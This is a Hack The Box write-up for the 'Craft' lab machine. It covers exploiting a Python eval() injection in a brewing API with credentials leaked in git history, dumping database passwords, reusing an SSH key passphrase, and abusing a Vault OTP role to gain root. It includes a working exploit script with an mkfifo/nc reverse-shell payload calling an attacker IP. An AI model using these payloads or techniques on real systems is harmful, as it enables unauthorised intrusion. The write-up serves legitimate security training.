# Craft

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/197"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/3067" > rotarydrone  </a> </h4>

***

__Machine IP__: 10.10.10.110

__DATE__ : 25/09/2019

__START TIME__: 6:35 PM

***

## Nmap



I've got two open port. The `http` service is running on port 443. Let's start our enumeration with that.

***


## HTTP

If we visit the website on port 443 we get a simple page with some information about `craft`.



There are two different subdomains. One takes you to `api.craft.htb` and another takes you to `gogs.craft.htb`. So first I added following lines to my `/etc/hosts`

```
10.10.10.110 api.craft.htb
10.10.10.110 gogs.craft.htb
```

The `API` shows some endpoints that we can visit.


And `gog.craft.htb` shows a `self hosted git service`



I started to explore the `gogs` service. I found there was a repository named `craft-api` and there were 4 users.





All these names are from `Silicon Valley` TV show. Since the `craft-api` is the only good lead we have. I cloned the repository and started to go through the code.
```bash
➜ gcl -c http.sslVerify=false https://gogs.craft.htb/Craft/craft-api/
```

I found some interesting piece of code in `craft-api/craft_api/api/brew/endpoints/brew.py`

```python
@auth.auth_required
    @api.expect(beer_entry)
    def post(self):
        """
        Creates a new brew entry.
        """

        # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

This is interesting because here the author is using `eval` on the `abv` value.
But the problem is that to get to that point we need authentication token which we'll get only with proper credentials.

In `craft-api/tests/test.py` I saw a line

```python
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('', ''), verify=False)
```

So the `auth` section is empty that's when I decided to look at the `git log` of the repository.
In one of them I found that `dinesh` once pushed with his credentials.



`auth=('dinesh', '4aUh0A8PbVJxgd')`

```python
import requests
import json
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']
print(token)
```

I used this code to get the `auth token`.



Now we have the token value we can try to exploit that `eval` we found.

```python
import requests
import json
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
TOKEN =  json_response['token']

headers = { 'X-Craft-API-Token': TOKEN, 'Content-Type': 'application/json'  }

brew_dict = {}
brew_dict['abv'] = '''__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.225 4444 >/tmp/f')# '''
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
print(json_data)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
This code will give you shell.



We are root but this `hostname` looks like we are inside some docker.

***

## Horizontal Privilege Escalation

In `/opt/app/craft_api/settings.py` I found password for `MYSQL DB`



The problem is that there is no `mysql` on the system. So we'll have to write code for that. But the author have kinda helped us by providing a `dbtest.py` file. All we have to do is edit it a bit.

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `*` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```


```json
[
    {'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
    {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
    {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
]
```

__NOTE__: You can run command like `SHOW TABLES` to see all the tables first and then run any other query. Also notice the difference in `result = cursor.fetchone()` and `result = cursor.fetchall()`.


So now we have the credentials but still I was not sure where to go. Then I decided to go through some forum posts and there I read that `I should go back to where I came from`. This is when I realized that I should try these credentials on `gogs`.


I was able to login as `gilfoyle` using his password that we found from the DB.
And in his account I found a new private repository called `craft-infra`.



In that repo I found the `.ssh` folder and in there I found the private key for `gilfoyle`.



I tried to login into the SSH using those keys and it asked for `pasphrase` I used the same password i,e `ZEU3N8WNM2rh4T` and `I was in`.



And then finally I got the `user` flag.



***

## Lateral Privilege Escalation

I noticed that there was a folder named `vault` in that private repository. In that folder I found `secret.sh`.



```sh
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

I realized that this was a `Hashicorp's vault`. I Know that it have a ssh option so I used that to escalate.

```bash
gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@10.10.10.110
```
Here we are using `otp` mode of vault and for role I used `root_otp` which I came to know about from the `secret.sh` and in the end I am `ssh-ing` into the machine with root. When you run the command you'll notice that it gives you a OTP and then prompts you for the `passphrase`. Enter that `OTP` as passphrase and you'll get the shell.





***

Thanks to [rotarydrone](https://www.hackthebox.eu/home/users/profile/3067) for making this machine and Thanks to [@jkr](https://twitter.com/ATeamJKR) for helping me.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
